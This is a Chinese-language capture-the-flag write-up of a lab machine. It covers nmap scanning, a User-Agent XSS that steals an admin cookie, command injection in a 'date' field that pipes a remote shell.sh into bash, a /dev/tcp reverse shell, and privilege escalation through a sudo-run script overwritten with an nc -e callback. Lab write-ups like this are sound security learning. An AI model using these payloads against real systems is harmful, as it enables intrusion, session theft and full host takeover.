







## 信息收集

## Nmap

```
root@kali# nmap --min-rate 10000 -p- -Pn 10.10.11.18 -oA scans/ports
...
PORT   STATE SERVICE
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
5000/tcp open  upnp?
···
root@kali# nmap -sT -sC -sV -O -p22,5000 10.10.11.18 -oA scans/details
...
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Thu, 28 Mar 2024 15:01:20 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>
|     <style>
|     body {
|     font-family: 'Arial', sans-serif;
|     background-color: #f7f7f7;
|     margin: 0;
|     padding: 0;
|     display: flex;
|     justify-content: center;
|     align-items: center;
|     height: 100vh;
|     .container {
|     text-align: center;
|     background-color: #fff;
|     border-radius: 10px;
|     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
...
```

开放了22和5000端口，22端口自然是openssh，但5000端口这个协议不常见啊，查了一下upnp协议好像是在路由器上运行的服务，不过跑出了http协议，浏览器访问一下



## 目录FUZZ

用dirsearch扫一下：



其中support是


试图直接在这里获得信息但是没什么回显
另一个进不去，/dashboard显示



那么很有可能是需要拿到授权才能进来这个页面，现在我们把关注点在再放到/support上

## 网站信息



网站使用了python中的flask模板，所以现在了一下几个攻击思路：

**1.SSTI注入（flask）**

**2.sql注入（表单）**

**3.xss（表单+网站场景）**

遂一个一个尝试，于是打开burp随便输入了一个SSTI的%a0截断



爆出了一个waf页面，提示这个browser information会被发送给管理员，哦豁，好像xss的可能性增加了（就是xss）

# 漏洞利用

## 通过xss漏洞拿到admin认证

所以我们在浏览器的基本信息里插入xss看看会不会成功吧，这里选择user-agent字段。于是有以下数据包：

```
POST /support HTTP/1.1
Host: 10.10.11.8:5000
Content-Length: 47
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.8:5000
Content-Type: application/x-www-form-urlencoded
User-Agent: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.8:5000/support
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

fname=1&lname=1&email=1@1.com&phone=1&message=1%0a{{1*1}}
```

这里我们要故意让这个数据包触发违规，这样数据包才能发送到管理员那里。这样我们就构造好了一个恶意xss数据包，但是别着急，我们还要在本地用python开一个服务器以便接收请求。

把这个包转到repeater中，然后在终端监听一个端口。

```
python3 -m http.server 8666
```



然后我们发送数据包给网站，然后静静等待，果然弹出了cookie


观察这个字段发现是base64编码，解码后是`is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0`,再重新把这个cookie放到浏览器，显示：


此时顺利拿到admin的身份

## 反弹shell

目前就这一个按钮，我们抓包看看


在添加了Cookie字段后发现了一个post包里发送了一个date字段，这里就试试看能不能反弹shell吧

于是有以下数据包

```
POST /dashboard HTTP/1.1
Host: 10.10.11.8:5000
Content-Length: 54
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.8:5000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.8:5000/dashboard
Cookie:is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

date=2023-09-15;curl http://10.10.16.88:8888/shell.sh|bash;
```

当然这里我们将以下代码写入shell.sh中

```
#!/bin/bash
/bin/bash -c 'exec bash -i >& /dev/tcp/10.10.16.88/1234 0>&1'
```

然后我们python来搭建服务器

```
python3 -m http.server 8888 -d ./
```

然后

```
nc -nlvp 1234
```

发送数据包等待


# 提权

```
sudo -l
```

看可以用的东西，重点发现有个/usr/bin/syscheck




发现其实是调用了本地文件夹下的一个initdb.sh文件，那我们只需要向其中写入能让我们提权的代码就好了。

```
echo "nc -e /bin/bash 10.10.16.88 3888" > initdb.sh
```

然后监听3888端口

```
nc -nlvp 3888
```

然后sudo执行程序

```
sudo /usr/bin/syscheck
```

